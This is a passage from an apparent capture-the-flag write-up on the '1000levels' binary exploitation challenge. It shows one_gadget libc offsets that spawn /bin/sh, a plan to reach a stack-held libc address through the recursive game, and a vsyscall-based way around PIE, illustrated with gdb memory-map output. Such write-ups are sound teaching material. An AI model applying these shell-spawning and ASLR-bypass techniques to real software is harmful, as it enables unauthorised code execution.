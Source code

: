 ```shell
  [rsp+0x50] == NULL

0xf1117    execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0xf66c0    execve("/bin/sh", rcx, [rbp-0xf8])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0xf8]] == NULL || [rbp-0xf8] == NULL
```

I chose the first one in the list: `0x4526a`.

## Solving the PIE Problem

We have two complications. First, we do not have any gadgets in the binary to
use because PIE randomises the text segment of the binary. Second, a naive
buffer overflow on the first `level()` call will not allow us to use the libc
address we placed on the stack. This is because since the `level()` function is
recursive, the 1000th call of the function will be the first one we encounter.

Solving the second issue is simple, we simply play the game 999 times until we
have walked all the way back up the call stack. This would put our overflow into
the range of the libc address.

Solving the first issue requires a little Linux magic. If we look at the Virtual
Memory Mapping, we can see that there is something that maintains a static
address between executions.

```shell
gdb-peda$ vmmap
Start              End                Perm    Name
0x0000555555554000 0x0000555555556000 r-xp    /vagrant/hitb/1000levels/1000levels
0x0000555555755000 0x0000555555756000 r--p    /vagrant/hitb/1000levels/1000levels
0x0000555555756000 0x0000555555757000 rw-p    /vagrant/hitb/1000levels/1000levels
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp    /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 ---p    /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r--p    /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p    /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p    mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp    /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fe0000 0x00007ffff7fe3000 rw-p    mapped
0x00007ffff7ff6000 0x00007ffff7ff8000 rw-p    mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p    [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp    [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p    /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p    /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p    mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p    [stack]
0xffffffffff600000 0xffffffffff601000 r-xp    [vsyscall]
```
